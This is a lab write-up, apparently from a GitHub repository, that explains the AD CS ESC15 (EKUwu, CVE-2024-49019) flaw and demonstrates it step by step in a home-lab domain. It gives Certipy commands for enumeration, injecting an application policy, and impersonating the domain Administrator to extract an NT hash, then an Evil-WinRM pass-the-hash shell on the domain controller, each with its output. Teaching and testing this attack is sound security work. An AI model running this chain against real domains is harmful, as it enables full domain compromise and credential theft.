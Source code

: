 
# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 6 (ESC15) Abuse Guide

### What is ESC15 (CVE-2024-49019) – Arbitrary Application Policy Injection in V1 Templates?

**ESC15**, also known as **"EKUwu"**, is a critical vulnerability (CVE-2024-49019) in **Active Directory Certificate Services (AD CS)** affecting **Version 1 (V1) certificate templates**. Discovered by Justin Bollinger from TrustedSec, the flaw allows attackers to manipulate the **Application Policies** field of a certificate request—even when those policies are not defined in the original certificate template.


In this attack, an adversary with **enrollment rights** can request a certificate while supplying:

* An arbitrary **subject name** (like a Domain Admin's UPN)
* A malicious **application policy** (like Client Authentication or Certificate Request Agent)

Although the v1 template might be configured to issue certificates only for specific purposes (e.g., Server Authentication), Microsoft’s implementation of AD CS **gives preference to Application Policies** (a Microsoft-specific extension) over standard **Extended Key Usage (EKU)** when both are present. This allows the attacker to override the intended use of the certificate.

---


### The Core Issue

When a Certificate Authority (CA) that hasn't been patched (as of November 2024) processes a request using a vulnerable V1 template, it may **blindly accept and embed attacker-supplied Application Policies** into the resulting certificate. This happens even if the template is not configured for those usages, essentially **overriding the intended restrictions**.

For example:

* A Web Server template is typically meant for **Server Authentication only**.
* An attacker can inject a **Client Authentication policy** (OID: `1.3.6.1.5.5.7.3.2`) into the request.
* If the CA is vulnerable, it will issue a certificate that includes both Server Authentication and Client Authentication—even though the template was only supposed to allow the former.
* That certificate can now be used to log in to systems that require **Client Authentication**, potentially allowing **unauthorized access as a domain user or admin**.

---

### Why It Works

* **V1 templates** lack the granular control of newer versions and don’t separate **Application Policies** from **Extended Key Usage (EKU)** as clearly.
* Windows prioritizes **Application Policies** over EKUs when both are present.
* If a template allows the requester to provide the **Subject Name** (i.e., `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`), attackers can also spoof identities, making this especially dangerous.
* The attack **does not require elevated privileges**—just access to request certificates from a vulnerable template.

---

## Lab Environment Setup for Demonstrating ESC15 Exploitation

### Step 1:

First, we have a default web server template with schema version 1. Other templates have version 2, and we cannot downgrade from 2 to 1.


The attacker (authenticated user) must have **Enroll** permissions for the template.

<img src="Imgs/image1.png" alt="Error loading Image">

2. The template must allow **Supplied in the request**.

<img src="Imgs/image2.png" alt="Error loading Image">

3. The template has a schema version of 1.

<img src="Imgs/image3.png" alt="Error loading Image">




## Enumerating AD CS for ESC15 Vulnerability

```
certipy find -u jcharles@furious.local -p complex1@ -dc-ip 192.168.129.140 

```

<img src="Imgs/image4.png" alt="Error loading Image">

#### ESC15 Vulnerability Flags

- EnrolleeSuppliesSubject

-  Schema Version = 1

-  Authenticated Users can enroll

- EKU does not include Client Authentication — must override using Certipy with:

```
-application-policies "1.3.6.1.4.1.311.20.2.1"
```
## Exploitation of ESC15 Vulnerability Using Certipy

Requests a certificate for jcharles using the WebServer template with `Client Authentication` EKU, saving it to a .pfx file

```
certipy req -u 'jcharles@furious.local' -p 'complex1@' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca furious-DC01-FURIOUS5-CA -template WebServer -dc-ip 192.168.129.140

```
```                                          
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy req -u 'jcharles@furious.local' -p 'complex1@' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca furious-DC01-FURIOUS5-CA -template WebServer -dc-ip 192.168.129.140

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 83
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'jcharles.pfx'
[*] Wrote certificate and private key to 'jcharles.pfx'

```
Performs a certificate request on behalf of the Administrator using the previously obtained certificate (`jcharles.pfx`), enabling impersonation.
```
certipy req -u 'jcharles@furious.local' -p 'complex1@' -on-behalf-of furious\\Administrator -template User -ca furious-DC01-FURIOUS5-CA -pfx jcharles.pfx -dc-ip 192.168.129.140 
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy req -u 'jcharles@furious.local' -p 'complex1@' -on-behalf-of furious\\Administrator -template User -ca furious-DC01-FURIOUS5-CA -pfx jcharles.pfx -dc-ip 192.168.129.140 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 85
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@furious.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                  
```
Authenticates as Administrator using the .pfx certificate and retrieves a valid TGT and NT hash.

```
sudo ntpdate $IP  
certipy auth -pfx administrator.pfx -dc-ip 192.168.129.140
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ sudo ntpdate $IP  
2025-06-12 11:27:58.989523 (-0400) -13749.186618 +/- 0.001100 192.168.129.140 s1 no-leap
CLOCK: time stepped by -13749.186618
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy auth -pfx administrator.pfx -dc-ip 192.168.129.140
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@furious.local'
[*] Using principal: 'administrator@furious.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:e6c278088a8bee2149534efa88d188f1
```


### Pass the Hash

Establishes a remote PowerShell session to the domain controller as administrator using the retrieved NTLM hash (Pass-the-Hash attack).
```
evil-winrm -i 192.168.129.140 -u administrator -H e6c278088a8bee2149534efa88d188f1
```
```                                                                                          
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ evil-winrm -i 192.168.129.140 -u administrator -H e6c278088a8bee2149534efa88d188f1

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
furious\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```


## References

- [ADCS Exploitation Series Part 2: Certificate Mapping (ESC15) – OffsecDeer](https://medium.com/@offsecdeer/adcs-exploitation-series-part-2-certificate-mapping-esc15-6e19a6037760)

- [ESC15 Vulnerability – Ravenswood Technology Group](https://www.ravenswoodtechnology.com/esc15-vulnerability/)

- [EKUwu: Not Just Another AD CS ESC – TrustedSec](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)

- [Certipy Wiki - Privilege Escalation via ADCS (ESC1–ESC15)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
